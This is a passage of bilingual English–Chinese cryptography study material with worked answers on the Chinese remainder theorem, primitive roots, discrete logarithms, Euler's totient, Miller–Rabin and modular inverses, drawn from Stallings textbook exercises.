(a) The moduli 5, 7, 9 are pairwise coprime, \(M=315\), \(M_1=63\), \(M_2=45\), \(M_3=35\). Inverses: \(63\equiv3\pmod5\) gives \(2\); \(45\equiv3\pmod7\) gives \(5\); \(35\equiv8\pmod9\) gives \(8\) (as \(64\equiv1\)). So \(c_i=126,225,280\) and \(x\equiv3\cdot126+4\cdot225+5\cdot280=2678\equiv158\pmod{315}\). Check: \(158 \bmod 5=3\), \(\bmod 7=4\), \(\bmod 9=5\).(a) 模数 5、7、9 两两互素，\(M=315\)、\(M_1=63\)、\(M_2=45\)、\(M_3=35\)。逆元：\(63\equiv3\pmod5\) 给出 \(2\)；\(45\equiv3\pmod7\) 给出 \(5\)；\(35\equiv8\pmod9\) 给出 \(8\)（因为 \(64\equiv1\)）。因此 \(c_i=126,225,280\) 且 \(x\equiv3\cdot126+4\cdot225+5\cdot280=2678\equiv158\pmod{315}\)。验证：\(158 \bmod 5=3\)、\(\bmod 7=4\)、\(\bmod 9=5\)。
(b) \(x\leftrightarrow(3,4,5)\) squares componentwise to \((9 \bmod 5,\ 16 \bmod 7,\ 25 \bmod 9)=(4,2,7)\). Then \(A\equiv4\cdot126+2\cdot225+7\cdot280=2914\equiv79\pmod{315}\). Check: \(158^2=24964\equiv79\).(b) \(x\leftrightarrow(3,4,5)\) 逐分量平方得到 \((9 \bmod 5,\ 16 \bmod 7,\ 25 \bmod 9)=(4,2,7)\)。然后 \(A\equiv4\cdot126+2\cdot225+7\cdot280=2914\equiv79\pmod{315}\)。验证：\(158^2=24964\equiv79\)。
(c) The CRT needs \(\gcd(m_i,m_j)=1\). Moduli 4 and 6 share the factor 2, so their residues are not independent: \(x\equiv1\pmod4\) forces \(x\) odd and \(x\equiv2\pmod6\) forces \(x\) even, so no \(x\) exists. Where a solution exists it is unique only modulo \(\operatorname{lcm}(4,6)=12\).(c) CRT 需要 \(\gcd(m_i,m_j)=1\)。模数 4 与 6 有公因子 2，因此它们的剩余并不独立：\(x\equiv1\pmod4\) 要求 \(x\) 为奇数，而 \(x\equiv2\pmod6\) 要求 \(x\) 为偶数，因此不存在 \(x\)。凡存在解时，解只在模 \(\operatorname{lcm}(4,6)=12\) 下唯一。
Q5. (Primitive roots and discrete logarithms, 10 marks) Let \(p=11\). (a) Show that 2 is a primitive root of 11 and say how many primitive roots there are (2). (b) Tabulate \(\mathrm{dlog}_{2,11}\) (2). (c) Using the table, solve \(2^x\equiv7\) and \(3x^4\equiv4\pmod{11}\) (4). (d) Explain why exponentiation modulo \(p\) is easy but the discrete logarithm is hard, and name two schemes relying on this (2).Q5. （原根与离散对数，10 分）设 \(p=11\)。(a) 证明 2 是 11 的原根，并说明共有多少个原根（2 分）。(b) 列出 \(\mathrm{dlog}_{2,11}\) 的表（2 分）。(c) 利用该表求解 \(2^x\equiv7\) 与 \(3x^4\equiv4\pmod{11}\)（4 分）。(d) 解释为什么模 \(p\) 的求幂容易而离散对数困难，并列举依赖于此的两种方案（2 分）。
Answer
(a) The powers of 2 are \(2,4,8,5,10,9,7,3,6,1\): all ten nonzero residues, so the order is \(10=\phi(11)\). There are \(\phi(10)=4\) primitive roots: \(2,6,7,8\).(a) 2 的各次幂为 \(2,4,8,5,10,9,7,3,6,1\)，即全部十个非零剩余，因此阶为 \(10=\phi(11)\)。原根共有 \(\phi(10)=4\) 个：\(2,6,7,8\)。
(b) For \(b=1,\dots,10\) the values \(\mathrm{dlog}_{2,11}(b)\) are \(0,1,8,2,4,9,7,3,6,5\).(b) 对 \(b=1,\dots,10\)，其取值 \(\mathrm{dlog}_{2,11}(b)\) 为 \(0,1,8,2,4,9,7,3,6,5\)。
(c) \(2^x\equiv7\) gives \(x=\mathrm{dlog}(7)=7\). For \(3x^4\equiv4\) put \(x=2^t\): \(8+4t\equiv2\pmod{10}\), so \(4t\equiv4\), \(2t\equiv2\pmod5\), \(t\equiv1\pmod5\). Then \(t=1\) or \(6\) and \(x=2\) or \(2^6\equiv9\). Check: \(3\cdot2^4=48\equiv4\).(c) \(2^x\equiv7\) 给出 \(x=\mathrm{dlog}(7)=7\)。对于 \(3x^4\equiv4\)，记 \(x=2^t\)：\(8+4t\equiv2\pmod{10}\)，因此 \(4t\equiv4\)、\(2t\equiv2\pmod5\)、\(t\equiv1\pmod5\)。于是 \(t=1\) 或 \(6\)，以及 \(x=2\) 或 \(2^6\equiv9\)。验证：\(3\cdot2^4=48\equiv4\)。
(d) \(g^x \bmod p\) takes \(O(\log x)\) modular multiplications by repeated squaring. No comparably fast method is known for recovering \(x\); the best algorithms are subexponential, \(e^{(\ln p)^{1/3}(\ln\ln p)^{2/3}}\), and infeasible for a 2048-bit \(p\). Diffie–Hellman key exchange and DSA (also ElGamal) rely on this.(d) \(g^x \bmod p\) 用重复平方法需要 \(O(\log x)\) 次模乘。目前没有同样快速的方法可以恢复 \(x\)；已知最好的算法是次指数的，\(e^{(\ln p)^{1/3}(\ln\ln p)^{2/3}}\)，并且对于 2048-bit 的 \(p\) 不可行。Diffie–Hellman 密钥交换与 DSA（以及 ElGamal）都依赖于此。
思路：先列出 2 的幂得到对数表，再把方程两边取对数，化成模 p−1 的线性同余。
Textbook exercises课后习题
Textbook exercises with answers: 16 questions教材习题及答案，共 16 题，点击展开
E1. (Review Question 2.1, Stallings) What does it mean to say that \(b\) is a divisor of \(a\)?E1.（复习题 2.1，Stallings）说 \(b\) 是 \(a\) 的因数是什么意思？
Answer
For integers \(a\) and \(b\) with \(b \neq 0\), \(b\) is a divisor of \(a\) if there is an integer \(m\) such that \(a = mb\). Equivalently, dividing \(a\) by \(b\) leaves remainder \(0\). We write \(b \mid a\). For example, \(3\) is a divisor of \(12\) because \(12 = 4 \cdot 3\). Every nonzero integer divides \(0\), and \(1\) and \(-1\) divide every integer. So "divisor" means "divides with no remainder".对整数 \(a\) 和 \(b\)（其中 \(b \neq 0\)），若存在整数 \(m\) 使得 \(a = mb\)，则 \(b\) 是 \(a\) 的因数。等价地说，用 \(b\) 去除 \(a\)，余数为 \(0\)。记作 \(b \mid a\)。例如，\(3\) 是 \(12\) 的因数，因为 \(12 = 4 \cdot 3\)。每个非零整数都整除 \(0\)，而 \(1\) 和 \(-1\) 整除每个整数。因此，“因数”就是“整除且没有余数”的意思。
思路：b 是 a 的因子 = a 恰好是 b 的整数倍。
E2. (Review Question 2.2, Stallings) What is the meaning of the expression "\(a\) divides \(b\)"?E2.（复习题 2.2，Stallings）表达式“\(a\) 整除 \(b\)”是什么意思？
Answer
"\(a\) divides \(b\)", written \(a \mid b\), means that \(b\) is an integer multiple of \(a\): \(b = ma\) for some integer \(m\), with \(a \neq 0\). It is the same statement as "\(a\) is a divisor of \(b\)". For example, \(5 \mid 35\) because \(35 = 7 \cdot 5\), whereas \(5 \nmid 36\) because \(36 = 7 \cdot 5 + 1\) leaves remainder \(1\). The order of the two numbers matters: the divisor is on the left of the bar.“\(a\) 整除 \(b\)”，记作 \(a \mid b\)，意思是 \(b\) 是 \(a\) 的整数倍：对某个整数 \(m\)，有 \(b = ma\)，并且 \(a \neq 0\)。它与“\(a\) 是 \(b\) 的因数”是同一个说法。例如，\(5 \mid 35\)，因为 \(35 = 7 \cdot 5\)；而 \(5 \nmid 36\) 不成立，因为 \(36 = 7 \cdot 5 + 1\) 的余数是 \(1\)。两个数的顺序很重要：因数要写在竖线的左边。
思路：与 E1 是同一关系，只是读法的方向相反，注意谁是除数。
E3. (Review Question 2.3, Stallings) What is the difference between modular arithmetic and ordinary arithmetic?E3.（复习题 2.3，Stallings）模运算和普通算术有什么区别？
Answer
In ordinary arithmetic the integers are unbounded and the result of an operation is the integer itself. In modular arithmetic with modulus \(n\), every result is reduced to its remainder on division by \(n\), so all values lie in the finite set \(\mathbb{Z}_n = \{0, 1, \dots, n-1\}\). Addition, subtraction and multiplication still work, because \([(a \bmod n) \circ (b \bmod n)] \bmod n = (a \circ b) \bmod n\) for \(\circ \in \{+,-,\times\}\). The differences are that the numbers "wrap around" (for example \(7 + 9 \equiv 4 \pmod{12}\)) and that division is replaced by multiplication with a modular inverse, which exists only when the number is coprime to \(n\). In cryptography the finite range is what makes computations bounded in size and hard to invert.在普通算术中，整数无界，运算结果就是整数本身。在模数为 \(n\) 的模运算中，每个结果都化为它除以 \(n\) 的余数，因此所有值都落在有限集合 \(\mathbb{Z}_n = \{0, 1, \dots, n-1\}\) 中。加法、减法和乘法依然有效，因为 \([(a \bmod n) \circ (b \bmod n)] \bmod n = (a \circ b) \bmod n\)（对 \(\circ \in \{+,-,\times\}\) 成立）。区别在于：数会“绕回”（例如 \(7 + 9 \equiv 4 \pmod{12}\)），而除法被替换为乘以模逆元，模逆元只在该数与 \(n\) 互素时存在。在密码学中，有限的取值范围使计算的规模有界，也使逆运算困难。
思路：模运算 = 结果回绕到有限集合 \(\mathbb{Z}_n\)，除法只能用逆元。
E4. (Review Question 2.4, Stallings) What is a prime number?E4.（复习题 2.4，Stallings）什么是素数？
Answer
A prime number is an integer \(p > 1\) whose only positive divisors are \(1\) and \(p\) itself. Examples are \(2, 3, 5, 7, 11\). An integer greater than \(1\) that is not prime is composite. The number \(1\) is neither. Primes are the building blocks of the integers because every integer \(n > 1\) can be written in exactly one way, apart from the order of the factors, as a product of primes.素数是这样的整数 \(p > 1\)：它的正因数只有 \(1\) 和它本身 \(p\)。例如 \(2, 3, 5, 7, 11\)。大于 \(1\) 且不是素数的整数称为合数。数 \(1\) 既不是素数也不是合数。素数是整数的基石，因为每个整数 \(n > 1\) 都可以唯一地（不计因子次序）写成素数之积。
思路：素数 = 只有 1 和自身两个正因子；算术基本定理说明它是整数的“原子”。
E5. (Review Question 2.5, Stallings) What is Euler's totient function?E5.（复习题 2.5，Stallings）什么是欧拉函数？
Answer
Euler's totient function \(\phi(n)\) is the number of positive integers less than \(n\) that are relatively prime to \(n\), with \(\phi(1) = 1\). Useful values: for a prime \(p\), \(\phi(p) = p - 1\); for primes \(p \neq q\), \(\phi(pq) = (p-1)(q-1)\); more generally \(\phi(p^k) = p^k - p^{k-1}\), and \(\phi(mn) = \phi(m)\phi(n)\) when \(\gcd(m,n) = 1\). For example \(\phi(10) = 4\), counting \(1, 3, 7, 9\). The function matters because Euler's theorem says \(a^{\phi(n)} \equiv 1 \pmod n\) for \(\gcd(a,n)=1\), which underlies RSA.欧拉函数 \(\phi(n)\) 是小于 \(n\) 且与 \(n\) 互素的正整数的个数，其中 \(\phi(1) = 1\)。常用的值：对素数 \(p\)，有 \(\phi(p) = p - 1\)；对素数 \(p \neq q\)，有 \(\phi(pq) = (p-1)(q-1)\)；更一般地，有 \(\phi(p^k) = p^k - p^{k-1}\)，并且当 \(\gcd(m,n) = 1\) 时有 \(\phi(mn) = \phi(m)\phi(n)\)。例如 \(\phi(10) = 4\)，即计入 \(1, 3, 7, 9\)。这个函数很重要，因为欧拉定理说：对 \(\gcd(a,n)=1\)，有 \(a^{\phi(n)} \equiv 1 \pmod n\)，而 RSA 正是以此为基础。
思路：φ(n) = 与 n 互素的数的个数，是欧拉定理和 RSA 的核心。
E6. (Review Question 2.6, Stallings) The Miller–Rabin test can determine if a number is not prime but cannot determine if a number is prime. How can such an algorithm be used to test for primality?E6.（复习题 2.6，Stallings）Miller–Rabin 算法只能判定一个数不是素数，而不能判定它是素数。这样的算法如何用来检验素性？
Answer
For an odd \(n\) with \(n - 1 = 2^k q\) (\(q\) odd), the test with a base \(a\) either answers "composite" (certain: \(a\) is a witness) or "inconclusive". If \(n\) is composite, at most a quarter of the bases \(1 < a < n-1\) answer "inconclusive". So we repeat the test with \(s\) independent random bases. If any run answers "composite", \(n\) is composite and we stop. If all \(s\) runs are inconclusive, we declare \(n\) prime. This answer is wrong with probability at most \(4^{-s}\), so a modest \(s\) (for example \(s = 40\)) makes the error negligible. The result is probabilistic: "prime" really means "prime with overwhelming probability".对于奇数 \(n\)（其中 \(n - 1 = 2^k q\)，且 \(q\) 为奇数），用底 \(a\) 做检测，结果要么是“合数”（确定：\(a\) 是见证者），要么是“不确定”。若 \(n\) 是合数，则至多四分之一的底 \(1 < a < n-1\) 会给出“不确定”。因此，我们用 \(s\) 个相互独立的随机底重复检测。只要有一次给出“合数”，\(n\) 就是合数，立即停止。若全部 \(s\) 次都是“不确定”，则判定 \(n\) 为素数。这个判断出错的概率至多为 \(4^{-s}\)，所以取一个适中的 \(s\)（例如 \(s = 40\)），就能使误差可以忽略。结果是概率性的：“素数”实际上的意思是“以极高的概率为素数”。
思路：重复多次随机底数，一次“合数”即确定；全部“不确定”则以错误概率 \(4^{-s}\) 判为素数。
E7. (Review Question 2.7, Stallings) What is a primitive root of a number?E7.（复习题 2.7，Stallings）一个数的原根是什么？
Answer
An integer \(a\) with \(\gcd(a, n) = 1\) is a primitive root of \(n\) if its order modulo \(n\) is \(\phi(n)\). That is, the powers \(a, a^2, \dots, a^{\phi(n)}\) taken modulo \(n\) are all distinct and produce every residue that is relatively prime to \(n\). For a prime \(p\) the powers of a primitive root generate all of \(1, \dots, p-1\). Example: \(3\) is a primitive root of \(7\), since \(3^1, \dots, 3^6 \equiv 3, 2, 6, 4, 5, 1 \pmod 7\). Primitive roots exist only for \(n = 2, 4, p^k, 2p^k\) (\(p\) an odd prime).若整数 \(a\)（满足 \(\gcd(a, n) = 1\)）模 \(n\) 的阶为 \(\phi(n)\)，则它是 \(n\) 的原根。也就是说，\(a, a^2, \dots, a^{\phi(n)}\) 的各次幂模 \(n\) 两两不同，并且取遍所有与 \(n\) 互素的剩余。对素数 \(p\)，原根的各次幂生成 \(1, \dots, p-1\) 中的全部元素。例：\(3\) 是 \(7\) 的原根，因为 \(3^1, \dots, 3^6 \equiv 3, 2, 6, 4, 5, 1 \pmod 7\)。原根只存在于 \(n = 2, 4, p^k, 2p^k\) 这些模数中（其中 \(p\) 为奇素数）。
思路：本原根的阶恰为 φ(n)，它的幂遍历全部与 n 互素的剩余。
E8. (Review Question 2.8, Stallings) What is the difference between an index and a discrete logarithm?E8.（复习题 2.8，Stallings）index 与离散对数有什么区别？
Answer
There is no mathematical difference: "index" is an older name for the discrete logarithm. If \(a\) is a primitive root of the prime \(p\), every \(b\) in \(\{1, \dots, p-1\}\) can be written \(b \equiv a^i \pmod p\) with a unique exponent \(0 \le i \le p-2\). This exponent is the discrete logarithm (index) of \(b\) to the base \(a\) modulo \(p\), written \(\mathrm{dlog}_{a,p}(b)\). The name only changes between texts. Stricter usage reserves "discrete logarithm" for any base, where the exponent may be non-unique or may not exist, and "index" for the well-defined case of a primitive root.两者在数学上没有区别：index 是离散对数的较早称呼。若 \(a\) 是素数 \(p\) 的原根，则 \(\{1, \dots, p-1\}\) 中的每个 \(b\) 都可以写成 \(b \equiv a^i \pmod p\)，且指数 \(0 \le i \le p-2\) 唯一。这个指数就是 \(b\) 以 \(a\) 为底、模 \(p\) 的离散对数，也称 index，记作 \(\mathrm{dlog}_{a,p}(b)\)。这一名称只因教材而异。更严格的用法是：“离散对数”用于任意底的情形，此时指数可能不唯一，甚至可能不存在；而“index”只用于原根这种定义良好的情形。
思路：index 与 discrete logarithm 本质相同，只是叫法不同；对本原根底数，指数唯一存在。
E9. (Problem 2.16, Stallings) Using the extended Euclidean algorithm, find the multiplicative inverse of (a) \(135 \bmod 61\), (b) \(7465 \bmod 2464\), and (c) \(42828 \bmod 6407\).E9.（习题 2.16，Stallings）用扩展欧几里得算法，求下列各数的乘法逆元：(a) \(135 \bmod 61\)，(b) \(7465 \bmod 2464\)，(c) \(42828 \bmod 6407\)。
Answer
Method: \(a\) has an inverse modulo \(n\) only if \(\gcd(a,n) = 1\). Run Euclid's algorithm, then back-substitute to write \(1 = xa + yn\); then \(a^{-1} \equiv x \pmod n\).方法：\(a\) 模 \(n\) 有逆元，仅当 \(\gcd(a,n) = 1\)。先运行欧几里得算法，再回代，把 \(1 = xa + yn\) 写出来；然后 \(a^{-1} \equiv x \pmod n\)。
(a) \(135 = 2\cdot 61 + 13\), \(61 = 4\cdot 13 + 9\), \(13 = 1\cdot 9 + 4\), \(9 = 2\cdot 4 + 1\). Back-substitution: \(1 = 9 - 2\cdot 4 = 3\cdot 9 - 2\cdot 13 = 3\cdot 61 - 14\cdot 13 = 31\cdot 61 - 14\cdot 135\). So \(135^{-1} \equiv -14 \equiv 47 \pmod{61}\). Check: \(135 \cdot 47 = 6345 = 104\cdot 61 + 1\).(a) \(135 = 2\cdot 61 + 13\)，\(61 = 4\cdot 13 + 9\)，\(13 = 1\cdot 9 + 4\)，\(9 = 2\cdot 4 + 1\)。回代：\(1 = 9 - 2\cdot 4 = 3\cdot 9 - 2\cdot 13 = 3\cdot 61 - 14\cdot 13 = 31\cdot 61 - 14\cdot 135\)。所以 \(135^{-1} \equiv -14 \equiv 47 \pmod{61}\)。验算：\(135 \cdot 47 = 6345 = 104\cdot 61 + 1\)。
(b) \(7465 = 3\cdot 2464 + 73\), \(2464 = 33\cdot 73 + 55\), \(73 = 1\cdot 55 + 18\), \(55 = 3\cdot 18 + 1\). Back-substitution: \(1 = 55 - 3\cdot 18 = 4\cdot 55 - 3\cdot 73 = 4\cdot 2464 - 135\cdot 73 = 409\cdot 2464 - 135\cdot 7465\). So \(7465^{-1} \equiv -135 \equiv 2329 \pmod{2464}\). Check: \(7465 \cdot 2329 \equiv 1 \pmod{2464}\).(b) \(7465 = 3\cdot 2464 + 73\)，\(2464 = 33\cdot 73 + 55\)，\(73 = 1\cdot 55 + 18\)，\(55 = 3\cdot 18 + 1\)。回代：\(1 = 55 - 3\cdot 18 = 4\cdot 55 - 3\cdot 73 = 4\cdot 2464 - 135\cdot 73 = 409\cdot 2464 - 135\cdot 7465\)。所以 \(7465^{-1} \equiv -135 \equiv 2329 \pmod{2464}\)。验算：\(7465 \cdot 2329 \equiv 1 \pmod{2464}\)。
(c) \(42828 = 6\cdot 6407 + 4386\), \(6407 = 1\cdot 4386 + 2021\), \(4386 = 2\cdot 2021 + 344\), \(2021 = 5\cdot 344 + 301\), \(344 = 1\cdot 301 + 43\), \(301 = 7\cdot 43\). The gcd is \(43 \neq 1\), so \(42828\) has no inverse modulo \(6407\).(c) \(42828 = 6\cdot 6407 + 4386\)，\(6407 = 1\cdot 4386 + 2021\)，\(4386 = 2\cdot 2021 + 344\)，\(2021 = 5\cdot 344 + 301\)，\(344 = 1\cdot 301 + 43\)，\(301 = 7\cdot 43\)。gcd 为 \(43 \neq 1\)，所以 \(42828\) 模 \(6407\) 没有逆元。
Result: inverses \(47\) and \(2329\) exist, and (c) has none because the numbers share the factor \(43\).结果：逆元 \(47\) 和 \(2329\) 存在，而 (c) 没有逆元，因为这两个数有公因子 \(43\)。
思路：先求 gcd；为 1 才有逆，回代得 \(1 = xa + yn\)，逆元即 x。
E10. (Problem 2.21, Stallings) Use Fermat's theorem to find a number \(a\) between \(0\) and \(92\) with \(a\) congruent to \(7^{1013}\) modulo \(93\).E10.（习题 2.21，Stallings）用费马定理求一个介于 \(0\) 和 \(92\) 之间的数 \(a\)，使得 \(a\) 与 \(7^{1013}\) 模 \(93\) 同余。
Answer
Since \(93 = 3 \cdot 31\) is not prime, apply Fermat's theorem (\(p\) prime, \(p \nmid a \Rightarrow a^{p-1} \equiv 1 \pmod p\)) modulo each prime factor and combine with the Chinese remainder theorem.由于 \(93 = 3 \cdot 31\) 不是素数，对它的每个素因子应用费马定理（\(p\) 为素数，\(p \nmid a \Rightarrow a^{p-1} \equiv 1 \pmod p\)），再用中国剩余定理合并。
Modulo \(3\): \(7 \equiv 1\), so \(7^{1013} \equiv 1\).模 \(3\)：\(7 \equiv 1\)，所以 \(7^{1013} \equiv 1\)。
Modulo \(31\): \(7^{30} \equiv 1\) and \(1013 = 33 \cdot 30 + 23\), so \(7^{1013} \equiv 7^{23}\). Squaring: \(7^2 = 49 \equiv 18\), \(7^4 \equiv 18^2 = 324 \equiv 14\), \(7^8 \equiv 14^2 = 196 \equiv 10\), \(7^{16} \equiv 100 \equiv 7\). Since \(23 = 16 + 4 + 2 + 1\): \(7^{23} \equiv 7 \cdot 14 \cdot 18 \cdot 7 \equiv 98 \cdot 126 \equiv 5 \cdot 2 = 10 \pmod{31}\).模 \(31\)：\(7^{30} \equiv 1\) 和 \(1013 = 33 \cdot 30 + 23\)，所以 \(7^{1013} \equiv 7^{23}\)。平方得：\(7^2 = 49 \equiv 18\)，\(7^4 \equiv 18^2 = 324 \equiv 14\)，\(7^8 \equiv 14^2 = 196 \equiv 10\)，\(7^{16} \equiv 100 \equiv 7\)。由于 \(23 = 16 + 4 + 2 + 1\)：\(7^{23} \equiv 7 \cdot 14 \cdot 18 \cdot 7 \equiv 98 \cdot 126 \equiv 5 \cdot 2 = 10 \pmod{31}\)。
Combine: \(a \equiv 1 \pmod 3\) and \(a \equiv 10 \pmod{31}\). The number \(10\) already satisfies both (\(10 \equiv 1 \pmod 3\)), so \(a = 10\) in the range \(0 \le a < 93\) (unique by the CRT).合并：\(a \equiv 1 \pmod 3\) 和 \(a \equiv 10 \pmod{31}\)。数 \(10\) 已经同时满足这两个条件（\(10 \equiv 1 \pmod 3\)），所以 \(a = 10\)，并且在范围 \(0 \le a < 93\) 内唯一（由 CRT 保证）。
Result: \(7^{1013} \equiv 10 \pmod{93}\).结果：\(7^{1013} \equiv 10 \pmod{93}\)。
思路：93 不是素数，对 3 和 31 分别用费马定理降幂，再用中国剩余定理合并。
E11. (Problem 2.24, Stallings) Use Euler's theorem to find a number \(x\) between \(0\) and \(14\) with \(x^{61}\) congruent to \(7\) modulo \(15\). (No brute-force searching.)E11.（习题 2.24，Stallings）用欧拉定理求一个介于 \(0\) 和 \(14\) 之间的数 \(x\)，使得 \(x^{61}\) 与 \(7\) 模 \(15\) 同余。（不要用穷举搜索。）
Answer
Euler's theorem: \(\gcd(x,15)=1 \Rightarrow x^{\phi(15)} = x^{8} \equiv 1 \pmod{15}\), since \(\phi(15) = \phi(3)\phi(5) = 2\cdot 4 = 8\). Any solution is coprime to \(15\), because a prime factor of \(x\) and \(15\) would divide \(x^{61}\) and hence \(7\). So exponents of \(x\) can be reduced modulo \(8\): \(x^{61} = x^{7\cdot 8 + 5} \equiv x^5\). We need \(x^5 \equiv 7\).欧拉定理：\(\gcd(x,15)=1 \Rightarrow x^{\phi(15)} = x^{8} \equiv 1 \pmod{15}\)，因为 \(\phi(15) = \phi(3)\phi(5) = 2\cdot 4 = 8\)。任何解都与 \(15\) 互素，因为若 \(x\) 与 \(15\) 有公共素因子，它就会整除 \(x^{61}\)，从而整除 \(7\)。因此 \(x\) 的指数可以模 \(8\) 化简：\(x^{61} = x^{7\cdot 8 + 5} \equiv x^5\)。我们需要 \(x^5 \equiv 7\)。
Since \(5 \cdot 5 = 25 = 3\cdot 8 + 1\), raise both sides to the fifth power: \((x^5)^5 = x^{25} = x \cdot (x^8)^3 \equiv x \pmod{15}\), so \(x \equiv 7^5 \pmod{15}\). Compute \(7^2 = 49 \equiv 4\), \(7^4 \equiv 16 \equiv 1\), \(7^5 \equiv 7\). Hence \(x = 7\). Check: \(7^{61} = 7 \cdot (7^4)^{15} \equiv 7 \pmod{15}\).由于 \(5 \cdot 5 = 25 = 3\cdot 8 + 1\)，两边同时取五次幂：\((x^5)^5 = x^{25} = x \cdot (x^8)^3 \equiv x \pmod{15}\)，所以 \(x \equiv 7^5 \pmod{15}\)。计算 \(7^2 = 49 \equiv 4\)、\(7^4 \equiv 16 \equiv 1\)、\(7^5 \equiv 7\)。因此 \(x = 7\)。验算：\(7^{61} = 7 \cdot (7^4)^{15} \equiv 7 \pmod{15}\)。
Result: \(x = 7\), and it is the only solution.结果：\(x = 7\)，并且它是唯一解。
思路：用欧拉定理把指数约到 mod 8；5 的逆元是 5（mod 8），两边做 5 次方即得 x。
E12. (Problem 2.27, Stallings) It can be shown that if \(\gcd(m, n) = 1\), then \(\phi(mn) = \phi(m)\phi(n)\). Using this, the fact that \(\phi(p^i) = p^i - p^{i-1}\) for a prime \(p\), and \(\phi(p) = p - 1\), determine (a) \(\phi(29)\), (b) \(\phi(51)\), (c) \(\phi(455)\), (d) \(\phi(616)\).E12.（习题 2.27，Stallings）可以证明：若 \(\gcd(m, n) = 1\)，则 \(\phi(mn) = \phi(m)\phi(n)\)。利用这一结论、对素数 \(p\) 有 \(\phi(p^i) = p^i - p^{i-1}\) 这一事实，以及 \(\phi(p) = p - 1\)，求 (a) \(\phi(29)\)，(b) \(\phi(51)\)，(c) \(\phi(455)\)，(d) \(\phi(616)\)。
Answer
Method: factor \(n\) into prime powers, apply \(\phi(p^i) = p^{i-1}(p-1)\) to each, and multiply (the prime powers are pairwise coprime).方法：把 \(n\) 分解为素数幂之积，对每个素数幂应用 \(\phi(p^i) = p^{i-1}(p-1)\)，再把结果相乘（各素数幂两两互素）。
(a) \(29\) is prime: \(\phi(29) = 28\).(a) \(29\) 是素数：\(\phi(29) = 28\)。
(b) \(51 = 3 \cdot 17\): \(\phi(51) = 2 \cdot 16 = 32\).
(c) \(455 = 5 \cdot 7 \cdot 13\): \(\phi(455) = 4 \cdot 6 \cdot 12 = 288\).
(d) \(616 = 2^3 \cdot 7 \cdot 11\): \(\phi(2^3) = 8 - 4 = 4\), so \(\phi(616) = 4 \cdot 6 \cdot 10 = 240\).(d) \(616 = 2^3 \cdot 7 \cdot 11\)：\(\phi(2^3) = 8 - 4 = 4\)，所以 \(\phi(616) = 4 \cdot 6 \cdot 10 = 240\)。
Result: \(28,\ 32,\ 288,\ 240\).结果：\(28,\ 32,\ 288,\ 240\)。
思路：先质因数分解，每个素数幂用 \(p^{i-1}(p-1)\)，再相乘。
E13. (Problem 2.32, Stallings) If \(n\) is composite and passes the Miller–Rabin test for the base \(a\), then \(n\) is called a strong pseudoprime to the base \(a\). Show that \(2047\) is a strong pseudoprime to the base \(2\).E13.（习题 2.32，Stallings）若 \(n\) 是合数，并且对底 \(a\) 通过了 Miller–Rabin 算法的检测，则称 \(n\) 是以 \(a\) 为底的强伪素数。证明 \(2047\) 是以 \(2\) 为底的强伪素数。
Answer
The test for odd \(n\) writes \(n - 1 = 2^k q\) with \(q\) odd, and returns "inconclusive" (the number passes) if \(a^q \equiv 1 \pmod n\) or \(a^{2^j q} \equiv -1 \pmod n\) for some \(0 \le j \le k-1\).对奇数 \(n\) 的检测先把 \(n - 1 = 2^k q\) 写出，其中 \(q\) 为奇数；若 \(a^q \equiv 1 \pmod n\) 成立，或对某个 \(0 \le j \le k-1\) 有 \(a^{2^j q} \equiv -1 \pmod n\)，则返回“不确定”（即该数通过检测）。
First, \(2047 = 23 \cdot 89\) is composite. Second, \(2046 = 2 \cdot 1023\), so \(k = 1\) and \(q = 1023\). Third, \(2^{11} = 2048 \equiv 1 \pmod{2047}\), and \(1023 = 11 \cdot 93\), so \(2^{1023} = (2^{11})^{93} \equiv 1^{93} = 1 \pmod{2047}\).第一，\(2047 = 23 \cdot 89\) 是合数。第二，\(2046 = 2 \cdot 1023\)，所以 \(k = 1\) 且 \(q = 1023\)。第三，\(2^{11} = 2048 \equiv 1 \pmod{2047}\)，并且 \(1023 = 11 \cdot 93\)，所以 \(2^{1023} = (2^{11})^{93} \equiv 1^{93} = 1 \pmod{2047}\)。
Hence \(a^q \equiv 1\), the test is inconclusive, and the composite number \(2047\) passes for the base \(2\).因此 \(a^q \equiv 1\)，检测结果为“不确定”，合数 \(2047\) 对底 \(2\) 通过了检测。
Result: \(2047\) is a strong pseudoprime to base \(2\). It shows why one base is not enough and several random bases are used.结果：\(2047\) 是以 \(2\) 为底的强伪素数。它说明了为什么一个底不够，需要使用多个随机底。
思路：2047 = 23·89，而 \(2^{11} \equiv 1\)，故 \(2^{1023} \equiv 1\)，通过检验。
E14. (Problem 2.34, Stallings) The example used by Sun-Tsu to illustrate the Chinese remainder theorem was \(x \equiv 2 \pmod 3\), \(x \equiv 3 \pmod 5\), \(x \equiv 2 \pmod 7\). Solve for \(x\).E14.（习题 2.34，Stallings）孙子用来说明中国剩余定理的例子是 \(x \equiv 2 \pmod 3\)，\(x \equiv 3 \pmod 5\)，\(x \equiv 2 \pmod 7\)。求 \(x\)。
Answer
The moduli \(3, 5, 7\) are pairwise coprime, so there is a unique solution modulo \(M = 3 \cdot 5 \cdot 7 = 105\), given by \(x = \sum a_i M_i (M_i^{-1} \bmod m_i) \bmod M\) with \(M_i = M/m_i\).模数 \(3, 5, 7\) 两两互素，所以模 \(M = 3 \cdot 5 \cdot 7 = 105\) 下有唯一解，由 \(x = \sum a_i M_i (M_i^{-1} \bmod m_i) \bmod M\) 给出，其中 \(M_i = M/m_i\)。
| \(i\) | \(a_i\) | \(m_i\) | \(M_i\) | \(M_i^{-1} \bmod m_i\) | term \(a_i M_i M_i^{-1}\) |
|---|---|---|---|---|---|
| 1 | 2 | 3 | 35 | \(35 \equiv 2\), \(2\cdot 2 \equiv 1\), so \(2\) | \(2\cdot 35\cdot 2 = 140\) |
| 2 | 3 | 5 | 21 | \(21 \equiv 1\), so \(1\) | \(3\cdot 21\cdot 1 = 63\) |
| 3 | 2 | 7 | 15 | \(15 \equiv 1\), so \(1\) | \(2\cdot 15\cdot 1 = 30\) |
Sum: \(140 + 63 + 30 = 233 \equiv 233 - 210 = 23 \pmod{105}\).求和：\(140 + 63 + 30 = 233 \equiv 233 - 210 = 23 \pmod{105}\)。
Check: \(23 = 7\cdot 3 + 2\), \(23 = 4 \cdot 5 + 3\), \(23 = 3 \cdot 7 + 2\).验算：\(23 = 7\cdot 3 + 2\)，\(23 = 4 \cdot 5 + 3\)，\(23 = 3 \cdot 7 + 2\)。
Result: \(x \equiv 23 \pmod{105}\).结果：\(x \equiv 23 \pmod{105}\)。
思路：套用 CRT 公式：每个 \(M_i\) 乘它在模 \(m_i\) 下的逆元与 \(a_i\)，求和后模 \(M\)。
